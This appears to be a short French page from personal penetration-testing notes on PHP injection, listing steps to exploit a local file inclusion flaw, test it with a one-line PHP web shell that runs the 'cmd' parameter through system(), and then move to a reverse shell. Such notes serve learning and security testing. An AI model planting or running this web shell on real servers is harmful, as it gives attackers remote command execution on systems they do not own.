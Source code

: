 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](web_server.md)</sub>
#PHP

**Présentation :** Language serveur

**Injection PHP :**
- Réaliser une [LFI](lfi.md)
  - Premier test, contenu du fichier : 
    - *<?php system($_GET["cmd"]); ?>* : si on passe cmd en param ça donne une rép.
    - ou *<?php phpinfo(); ?>*
  - Si premier test OK => [reverse shell](reverse_shell.md)
  